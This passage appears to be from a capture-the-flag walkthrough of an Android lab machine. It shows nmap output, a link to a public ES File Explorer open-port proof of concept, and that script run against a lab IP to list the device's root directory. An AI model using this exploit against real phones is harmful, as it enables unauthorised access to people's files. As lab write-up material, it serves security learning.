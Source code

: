 ```console
SF:e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.50 seconds
```

A quick google search gives a simple exploit for ES file explorer.

https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

Running it we can see a bunch of files but I was unable to go deeper than the starting directory.

```console
└──╼ [★]$ python3 poc.py --cmd listFiles --host 10.129.50.183
[*] Executing command: listFiles on 10.129.50.183
[*] Server responded with: 200
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
{"name":"vndservice_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
{"name":"vendor_service_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_seapp_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_property_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
{"name":"vendor_hwservice_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_file_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"ueventd.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
{"name":"ueventd.android_x86_64.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sys", "time":"8/30/22 02:42:46 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"storage", "time":"8/30/22 02:42:50 PM", "type":"folder", "size":"80.00 Bytes (80 Bytes)", }, 
{"name":"sepolicy", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"357.18 KB (365,756 Bytes)", }, 
{"name":"sdcard", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sbin", "time":"8/30/22 02:42:46 PM", "type":"folder", "size":"140.00 Bytes (140 Bytes)", }, 
{"name":"product", "time":"3/24/20 11:39:17 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"proc", "time":"8/30/22 02:42:45 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"plat_service_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"13.73 KB (14,057 Bytes)", }, 
{"name":"plat_seapp_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"1.28 KB (1,315 Bytes)", }, 
{"name":"plat_property_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"6.53 KB (6,687 Bytes)", }, 
{"name":"plat_hwservice_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"7.04 KB (7,212 Bytes)", }, 
{"name":"plat_file_contexts", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"23.30 KB (23,863 Bytes)", }, 
{"name":"oem", "time":"8/30/22 02:42:46 PM", "type":"folder", "size":"40.00 Bytes (40 Bytes)", }, 
{"name":"odm", "time":"8/30/22 02:42:46 PM", "type":"folder", "size":"220.00 Bytes (220 Bytes)", }, 
```